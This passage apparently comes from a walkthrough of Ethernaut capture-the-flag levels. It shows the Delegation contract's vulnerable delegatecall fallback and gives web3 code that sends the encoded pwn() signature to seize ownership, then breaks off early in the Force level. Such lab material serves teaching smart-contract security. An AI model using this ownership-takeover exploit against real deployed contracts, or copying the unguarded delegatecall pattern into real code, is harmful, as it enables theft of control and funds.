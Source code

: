 ```
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}

```

### Solution
Inside it's fallback, the `Delegation` contract delegates the call to it's `delegate`. That means that the delegate will have control over the `Delegation` state, preserving the `msg.sender` and `msg.value`.
So when we call the fallback, it will execute `Delegate`'s code. So we need to pass the `encodeFunctionSignature` as the `msg.data` so we trigger the `pwn` function and change the `Delegation`'s `owner`. 


```
let payload = web3.eth.abi.encodeFunctionSignature({
    name: 'pwn',
    type: 'function',
    inputs: []
});

await contract.sendTransaction({
    data: payload
});
```

## 7. Force

```
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

Sources

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
```
